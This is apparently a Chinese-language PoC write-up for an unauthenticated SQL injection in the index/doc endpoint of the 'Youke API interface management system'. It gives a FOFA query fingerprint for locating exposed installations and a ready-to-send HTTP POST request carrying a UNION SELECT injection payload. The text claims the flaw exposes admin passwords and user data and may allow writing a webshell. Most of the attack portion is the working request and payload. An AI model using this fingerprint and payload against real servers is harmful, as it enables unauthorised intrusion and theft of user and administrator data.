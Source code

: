 # 全新优客API接口管理系统doc存在SQL注入漏洞

全新优客API接口管理系统 index/doc 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
body="public/static/index/css/flaghome.css"
```

## poc

```javascript
POST /index/index/doc HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded
Connection: close

id=') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,@@VERSION,NULL-- -
```

![image-20241114142149139](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141421210.png)